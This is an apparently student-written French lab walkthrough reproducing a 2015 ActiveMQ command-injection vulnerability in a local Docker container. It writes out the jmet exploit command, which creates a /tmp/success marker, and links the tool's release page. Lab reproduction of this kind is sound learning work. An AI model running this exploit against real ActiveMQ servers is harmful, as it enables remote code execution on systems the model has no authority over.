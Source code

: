 -----CVE 2015 -----

1- D'abord, j'ai effectuer un docker compose du fichier .yml dans ma version 2015 d'ActiveMQ afin d'avoir une image docker.


<img width="537" alt="image" src="https://github.com/user-attachments/assets/b78dcbb9-f180-4fbc-90a3-07cc6f2621af" />


2-Cette image Docker ayant été généré j'effectue un scan des différent ports de mo, IP afin de voir le port sur lequel je veux constater la comunication avec mon image docker d'activeMq

![Capture d'écran 2024-12-15 180108](https://github.com/user-attachments/assets/8e149b6e-3923-4e43-b1f3-a641202ca0ab)


3-Ensuite j'identifie la version d'activeMq en navigant sur la fenetre admin
 ![Uploading Capture d’écran 2024-12-15 182159.png…]()


4-Méthode de compromission:
 -En effet cette version d'activemq est vulnérable aux attaques de type injection de commande, ce qui va me permettre grçace à une charge malvaillante(fichier.jar) de pouvoir effectuer une injection au sein d'activeMq et de creer un répertoire appelé succès.
Pour ce faire je télécharge la charge malvaila,nte en release:  https://github.com/matthiaskaiser/jmet/releases)

-J'effectue mon injection avec cette commande:

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 10.0.2.15 61616

![Uploading Capture d’écran 2024-12-15 184207.png…]()


-Je pourrai ainsi observé sur l'interface d'activeMq cette mutation 
![Capture d'écran 2024-12-15 184322](https://github.com/user-attachments/assets/42850ea1-a5fe-4dcc-8c56-9e4e1eb0c764)

![Capture d'écran 2024-12-15 184617](https://github.com/user-attachments/assets/a7012242-8d44-4e16-ac7e-1650fdbfecbb)


-Enfin en prenant l'Identifiant de mon image docker d'ActiveMq : docker ps -a

![Capture d'écran 2024-12-15 184817](https://github.com/user-attachments/assets/e88b4e10-52ea-4931-8955-ce5c378615c4)


je pourrai exécuter cette commande afin de répérer mon repertoire ainsi créer: docker exec -it  (Id_image_docker) /bin/bash

![Capture d'écran 2024-12-15 185030](https://github.com/user-attachments/assets/c2ed3335-6236-44be-884c-6444dc81883a)

